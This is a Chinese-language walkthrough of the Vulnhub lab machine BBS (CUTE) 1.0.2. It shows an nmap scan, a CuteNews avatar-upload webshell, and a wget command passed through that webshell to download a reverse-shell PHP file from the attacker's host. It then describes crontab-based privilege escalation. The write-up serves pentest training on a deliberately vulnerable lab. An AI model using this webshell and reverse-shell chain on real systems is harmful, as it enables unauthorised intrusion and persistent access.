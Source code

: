 ```yaml
---
layer: article
title: Vulnhub 567 BBS (CUTE)  1.0.2
tags: pentest vulnhub writeup
---
```


考点：任意文件上传,定时任务

靶机链接：<https://www.vulnhub.com/entry/bbs-cute-102,567/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| BBS (CUTE) | 10.0.2.11 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.11
$ sudo nmap -v -A -p- $rip
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04:d0:6e:c4:ba:4a:31:5a:6f:b3:ee:b8:1b:ed:5a:b7 (RSA)
|   256 24:b3:df:01:0b:ca:c2:ab:2e:e9:49:b0:58:08:6a:fa (ECDSA)
|_  256 6a:c4:35:6a:7a:1e:7e:51:85:5b:81:5c:7c:74:49:84 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: LOGIN-DELAY(10) UTF8(USER) TOP STLS IMPLEMENTATION(Courier Mail Server) PIPELINING USER UIDL
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T16:28:06
| Not valid after:  2021-09-17T16:28:06
| MD5:   5ee2 40c8 66d1 b327 71e6 085a f50b 7e28
|_SHA-1: 28a3 acc0 86a7 cd64 8f09 78fa 1792 7032 0ecc b154
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: LOGIN-DELAY(10) TOP UTF8(USER) IMPLEMENTATION(Courier Mail Server) PIPELINING USER UIDL
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T16:28:06
| Not valid after:  2021-09-17T16:28:06
| MD5:   5ee2 40c8 66d1 b327 71e6 085a f50b 7e28
|_SHA-1: 28a3 acc0 86a7 cd64 8f09 78fa 1792 7032 0ecc b154

```

### WEB测试

#### 端口88

未发现有用信息

#### 端口80

[dirb](https://www.iihack.com/pages/tools/dirb.html)和[dirsearch](https://www.iihack.com/pages/tools/dirsearch.html)都发现了index.php

![](https://static.iihack.com/vulnhub/567/1.PNG)

### 漏洞发现

![](https://static.iihack.com/vulnhub/567/2.PNG)

查看利用脚本，发现CuteNews目录需要手工去除

![](https://static.iihack.com/vulnhub/567/3.PNG)

使用新建的用户`ZOu0fykHPn`登录

## 获得权限

### 靶机测试

![](https://static.iihack.com/vulnhub/567/4.PNG)

头像处是上传的shell

访问<http://10.0.2.11/uploads/avatar_ZOu0fykHPn_ZOu0fykHPn.php>文件存在

![](https://static.iihack.com/vulnhub/567/5.PNG)

下载r444.php

```http
http://10.0.2.11/uploads/avatar_ZOu0fykHPn_ZOu0fykHPn.php?cmd=wget http://10.0.2.15/reverse/r444.php
```

访问<http://10.0.2.11/uploads/r444.php>

反弹shell成功

![](https://static.iihack.com/vulnhub/567/6.PNG)

## 提权

将反弹shell写入crontab

![](https://static.iihack.com/vulnhub/567/7.PNG)

![](https://static.iihack.com/vulnhub/567/8.PNG)
